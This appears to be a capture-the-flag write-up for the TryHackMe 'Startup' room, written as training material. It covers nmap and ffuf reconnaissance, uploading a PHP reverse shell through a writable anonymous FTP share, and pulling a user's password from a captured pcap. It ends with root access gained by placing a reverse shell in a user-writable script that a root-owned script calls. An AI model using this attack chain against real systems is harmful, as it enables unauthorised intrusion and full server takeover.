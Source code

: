 ```bash
# PLATFORM          . THM
# CTF NAME          . Startup
# DESCRIPTION       . Abuse traditional vulnerabilities via untraditional means.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/startup
```

```bash
sudo nmap -sSVC -T5 10.10.28.224 -p- -oN Startup
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

- I also started fuzzing the webserver in the meanwhile.

```bash
ffuf -u http://10.10.28.224/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
files                   [Status: 301, Size: 312, Words: 20, Lines: 10]
```

- FTP supports anonymous login. However, both files are also present in the `/files` web directory, so we can grab them either way.

```notice.txt
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

- Alright. What I understand here is that this FTP was meant to be left public (anonymous). But we got an username: `maya`.

- I have noticed that we have `write access` to the `FTP` folder. Since we already know that everything there will end up on the webserver in `/files`, let's go ahead and try uploading a revshell.

```
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp

-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```

```
cd ftp
250 Directory successfully changed.

ftp> put shell.php shell.php

local: shell.php remote: shell.php
200 EPRT command successful. Consider using EPSV.
150 Ok to send data.

226 Transfer complete.

ftp> exit
```

- The shell is available at `ip/files/ftp/shell.php`

- The first flag is in `/recipe.txt`.

- In the same directory, there's an uncommon directory called `incidents` with a file `suspiucious.pcapng`

- I've moved the file to `/var/www/html/files/ftp` and downloaded it on my machine.

- After some analysis, I've noticed that in the HTTP traffic there was a previous attempt to get a reverse shell on the server.

![[Pasted image 20231125214019.png]]

- The `shell.php` file could also be viewed from `File -> Export Objects -> HTTP`

- If we follow the TCP-Stream of those packets, we end up with packet 215 (tcp stream 7), where we can find the password of user `lennie

```bash
www-data@startup:/home$ cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: {redacted}
```

- The first flag is in `/home/lennie/user.txt`.

- The privilege escalation was rather straight forward. Inside lennie's home directory, there is a directory called `scripts`.

- Inside that, we find a bash script called `planner.sh` that is owned by root.

```
lennie@startup:~/scripts$ ls -l .

-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
```

```planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

- However, the script called at the end, `print.sh`, is owned (thus editable) by lennie. 

- Edit the `/etc/print.sh` file with a `bash reverse shell` and start up a listener on the attack box. 

- The last flag is in `/root/root.txt`
